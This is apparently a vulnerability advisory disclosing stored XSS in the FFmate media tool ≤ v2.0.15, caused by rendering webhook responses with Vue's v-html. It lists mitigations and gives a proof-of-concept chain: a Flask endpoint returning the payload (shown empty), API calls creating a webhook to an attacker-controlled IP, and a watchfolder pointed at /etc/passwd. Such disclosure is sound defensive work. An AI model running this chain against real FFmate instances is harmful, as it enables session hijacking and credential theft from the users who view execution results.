






# Stored XSS Vulnerability in FFmate

> **Software and Affected Version:** [FFmate](https://github.com/welovemedia/ffmate) ≤ v2.0.15

## Vulnerability Files

-   `/ui/app/components/AppJsonTreeView.vue`

## Description

A stored Cross-Site Scripting (XSS) vulnerability exists in [FFmate](https://github.com/welovemedia/ffmate) ≤ v2.0.15 at the webhook execution response display functionality, where webhook responses are stored and rendered without proper sanitization or validation. When webhook responses containing malicious JavaScript payloads are displayed in the executions view, the injected scripts execute in the browsers of users viewing the webhook execution results. As a result, attackers can configure webhooks pointing to malicious endpoints to inject arbitrary JavaScript, potentially leading to session hijacking, credential theft, or malicious actions performed on behalf of victims. Mitigations include implementing HTML sanitization using libraries like DOMPurify, avoiding `v-html` in favor of safe Vue.js rendering, implementing Content Security Policy (CSP) headers, encoding output context-appropriately, and validating input against a whitelist of allowed HTML tags and attributes.

## Code Analysis

In `/ui/app/components/AppJsonTreeView.vue`:

```vue
<template>
    <ul class="font-[Monospace] text-sm">
        <!-- ... -->

        <!-- VALUES: value is a string -->
        <li v-if="json.typeof === 'string'" class="group flex flex-row items-center">
            <span :class="colors.keys.value.isString">
                <span v-html="highlight(baseHeader)"></span>:
                <span :class="colors.values.isString">
                    "<span class="break-all" v-html="highlight((json.value as string).replaceAll(' ', '&nbsp;'))"></span>"
                </span>
            </span>
            <div class="w-8">
                <ClipboardDocumentIcon
                    v-if="options?.copyToClipboard"
                    class="invisible ml-2 size-3 cursor-pointer text-xs text-gray-400 hover:text-gray-300 group-hover:visible"
                    @click="copyToClipboard">
                </ClipboardDocumentIcon>
            </div>
        </li>

        <!-- ... -->
    </ul>
</template>
```

The `v-html` directive is used to render the webhook's response. According to the [Vue.js documentation](https://vuejs.org/api/built-in-directives#v-html), Vue template syntax will not be processed and the inserted content is not sanitized.

## Proof of Concept

Start a simple flask server:

```py
from flask import Flask

app = Flask(__name__)

@app.route('/ping', methods=['GET', 'POST'])
def ping() -> None:
    return {'type': 'success', 'msg': 'ping'}

@app.route('/pong', methods=['GET', 'POST'])
def pong() -> None:
    return {'type': 'success', 'msg': 'pong'}

@app.route('/xss', methods=['GET', 'POST'])
def xss() -> None:
    return ''

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True)
```

Create a preset using `/api/v1/presets` with the following payload. Remember the returned uuid:

```json
{
    "name": "Convert to MP4",
    "description": "Converts input files to MP4",
    "command": "-y -i ${INPUT_FILE} ${OUTPUT_FILE}",
    "priority": 0,
    "outputFile": "${INPUT_FILE_DIR}/${INPUT_FILE_BASENAME}.mp4",
    "preProcessing": { "scriptPath": "", "sidecarPath": "", "importSidecar": false },
    "postProcessing": { "scriptPath": "", "sidecarPath": "" },
    "webhooks": [],
    "globalPresetName": "Convert to MP4"
}
```



Create a webhook using `/api/v1/webhooks` with the following payload:

```json
{ "event": "task.created", "url": "http://192.168.126.133:5000/xss" }
```



Create a watchfolder `/etc/passwd` using `/api/v1/watchfolders` with the following payload. Remember the returned uuid. Although the target is not a folder, the server does not deny and keeps creating tasks with `/etc/passwd` as input:

```json
{
    "name": "Test",
    "description": "Test",
    "interval": 5,
    "growthChecks": 3,
    "preset": "3ebc8c90-0128-4b21-bde6-9d4fb78be531",
    "path": "/etc/passwd",
    "suspended": false,
    "filter": { "extensions": { "include": [], "exclude": [] } }
}
```



Remove the watchfolder created above to stop creating tasks using `/api/v1/watchfolders/<uuid>` with method delete:



Request `/api/v1/webhooks/executions` to confirm that the webhook is executed:



Access `/ui/executions` in browser and click the execution result, got a pop-up window:


